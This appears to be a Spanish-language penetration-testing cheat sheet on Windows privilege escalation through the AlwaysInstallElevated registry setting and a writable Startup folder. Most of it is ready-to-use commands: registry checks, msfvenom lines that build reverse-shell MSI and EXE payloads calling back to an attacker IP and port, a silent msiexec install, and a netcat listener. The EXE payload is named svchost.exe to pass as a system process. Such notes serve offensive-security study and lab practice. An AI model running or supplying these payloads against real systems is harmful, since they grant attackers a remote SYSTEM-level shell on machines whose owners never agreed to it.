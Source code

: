 Verificar si estos dos registros tienen el valor de 1:

```bash
$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

$ Get-ItemProperty HKLM\Software\Policies\Microsoft\Windows\Installer
$ Get-ItemProperty HKCU\Software\Policies\Microsoft\Windows\Installer
```

Si es asi los usuarios con cualquier privilegio pueden instalar (ejecutar) archivos .msi como NT AUTHORITY.

Podemos crear un msi con msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.25 LPORT=4545 -f msi > shell.msi
```

Y ejecutarlo de la siguiente manera:

```bash
msiexec /quiet /qn /i shell.msi 

msiexec -> permite la ejecucion de msi desde consola 
/quiet -> Suprime cualquier mensaje al usuario durante la instalación 
/qn -> instalaciion sin GUI (interfaz grafica) 
/i -> Instalación regular
```

Y nos colocamos a la escucha con netcat para recibir nuestra reverse shell:

```bash
nc -lvnp 4545
```

## Startup Applications

Primero debemos ver los permisos que el usuario con el que ingresamos en la carpeta **C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\Startup**:

```bash
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

otra forma es con **Accesschk.exe**:

```bash
Accesschk.exe -accepteula -wuqv "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

Necesitamos permisos para poder escribir en ese directorio, si tenemos **Full Access (F)** seria lo mejor. 

En caso de tener, es ahi donde se encuentran los binarios que se ejecutan al iniciar una sesion de windows, la idea es generar un binario con msfvenom en formato **exe**, pasarlo a la maquina windows y depositarlo en esta ruta. 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP_KALI> LPORT=<PUERTO_KALI> -f exe > svchost.exe
```
